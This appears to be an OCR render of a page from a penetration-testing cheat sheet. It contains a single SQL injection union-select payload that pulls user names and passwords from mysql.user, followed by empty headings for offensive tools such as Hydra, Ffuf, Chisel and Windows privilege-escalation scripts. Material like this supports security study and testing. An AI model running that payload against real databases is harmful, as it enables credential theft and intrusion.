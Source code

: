 ```bash
9999 union select 1,group_concat(user,":",password),3,4,5 from mysql.user

```

### Hydra

### Wfuzz

### Ffuf

### Uploading Files

### Local File Inclusion (LFI)

### Remote Command Execution (RCE)

### Socat

### Chisel

### Ping Sweep

### Stegseek

### Binwalk

### Crunch

### PrivescCheck.ps1

### Windows-Exploit-Suggester 

### WebDav

### Threader3000

### Seatbelt.exe

### File Transfer

### Firefox Decrypt

### Sshuttle

### Pwsh
